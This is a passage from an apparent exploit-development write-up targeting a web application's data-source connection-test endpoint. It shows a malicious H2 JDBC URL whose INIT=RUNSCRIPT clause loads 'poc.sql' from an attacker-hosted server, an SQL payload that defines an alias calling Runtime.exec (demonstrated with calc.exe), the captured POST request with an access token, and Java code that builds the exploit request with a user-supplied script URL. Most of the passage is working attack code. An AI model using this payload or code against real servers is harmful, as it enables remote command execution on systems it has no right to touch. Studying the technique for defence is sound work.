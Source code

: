 Basically, This is a `JDBC` connection string which will connect a `H2` in memory database with the name we give which is `testdb`. Then, `TRACE_LEVEL_SYSTEM_OUT=3` parameter enables trace logging to be printed to the console. Finally, `INIT=RUNSCRIPT FROM 'http://192.168.0.162:8000/poc.sql'` parameter specifies that the `poc.sql` script located at our `URL` should be executed when the database is initialized. But, What is inside `poc.sql` file ?:

```
CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);return "123";}';CALL EXEC ('calc.exe')
```

In short words, This sql script uses the `H2` database ability to create an alias to execute command and here we executing `calc.exe` for the demo of the exploit. Now, Let's start our http server that will host our `poc.sql` script and after that we click on `Test Connect` Button:

![](/assets/images/c638cbe6833b72d759916714e36b31f2)

&nbsp;

It's time now to take the request of the connection and added to our exploit code.

Request:

```
POST /api/data-source/connectTest HTTP/1.1
Host: 192.168.0.162:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Access-Token: Root_access_token
Content-Length: 185
Origin: http://192.168.0.162:8088
DNT: 1
Connection: close
Referer: http://192.168.0.162:8088/
Cookie: JSESSIONID=C9B7BAFA141D48D0D26178AD8F489668

{"name":"azima","driver":"org.h2.Driver","url":"jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://192.168.0.162:8000/poc.sql'","username":"test","password":"test"}
```

As we can see we will create a new `HTTP` connection object with a new `URL` object for the connection request to perform the `JDBC` Attack. So, Here we need to replace the SQL script `URL` with one provided by the user.

```
String url2 = "http://" + host + ":" + port + "/api/data-source/connectTest";
String requestBody = "{\"name\":\"azima\",\"driver\":\"org.h2.Driver\",\"url\":\"jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM '"+JDBC+"'\",\"username\":\"a\",\"password\":\"a\"}";

URL obj2 = new URL(url2);
HttpURLConnection con2 = (HttpURLConnection) obj2.openConnection();


con2.setRequestMethod("POST");
con2.setRequestProperty("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0");
con2.setRequestProperty("Accept", "application/json, text/plain, */*");
con2.setRequestProperty("Accept-Language", "en-US,en;q=0.5");
con2.setRequestProperty("Accept-Encoding", "gzip, deflate");
con2.setRequestProperty("Content-Type", "application/json;charset=utf-8");
con2.setRequestProperty("Access-Token", accessToken3);
con2.setRequestProperty("Origin", "http://" + host + ":" + port);
con2.setRequestProperty("DNT", "1");
con2.setRequestProperty("Connection", "close");
con2.setRequestProperty("Referer", "http://" + host + ":" + port + "/");
```